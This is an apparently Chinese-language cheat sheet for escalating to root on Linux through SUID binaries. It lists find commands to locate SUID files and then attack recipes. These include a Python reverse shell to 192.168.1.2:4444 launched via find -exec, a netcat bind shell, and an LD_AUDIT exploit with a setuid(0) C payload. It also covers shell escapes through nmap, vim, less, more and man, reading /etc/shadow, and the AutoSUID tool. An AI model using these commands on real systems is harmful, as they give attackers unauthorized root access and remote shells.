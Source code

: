 	查找有root权限的SUID文件
	$find / -perm -u=s -type f 2>/dev/null
	$find / -user root -perm -4000 -print 2>/dev/null
	$find / -user root -perm -4000 -exec ls -ldb {} \;
##### Find
	$touch xxx
	$/usr/bin/find xxx –exec whoami \;
	$/usr/bin/find xxx –exec python -c 'import 	socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  \;
	&
	>find xxx -exec netcat -lvp 12138 -e /bin/sh \; 然后攻击机主动连接
##### Ping
    >cd /tmp
    >mkdir exploit
    >ln /bin/ping /tmp/exploit/cmd
    >exec 3< /tmp/exploit/cmd
    >rm -rf /tmp/exploit/
    >vim payload.c
```c
void __attribute__((constructor)) init()  // 两个下划线
{
     setuid(0);
     system("/bin/bash");
}
```
    >gcc -W -fPIC -shared -o /tmp/exploit payload.c
    >提升到root权限
    >LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
    >id 查看当前权限
##### NMAP
	# 进入nmap的交互模式
	>nmap --interactive 
	>!sh
##### VIM
	>vim.tiny /etc/shadow
	&
	>vim.tiny
	# 按ESC
	:set shell=/bin/sh
	:shell
##### BASH
	>bash –p
##### More/Less/Man
	>less /etc/passwd
	!/bin/sh
	>more /etc/passwd
	!/bin/bash
	>man passwd
	!/bin/bash
##### CP/MV
	覆盖shadow文件
##### AutoSUID
  	https://github.com/IvanGlinkin/AutoSUID/
	自动收集 SUID 可执行文件并找到进一步提升权限的方法。100% 自动化。
	chmod +x AutoSUID.sh
	./AutoSUID.sh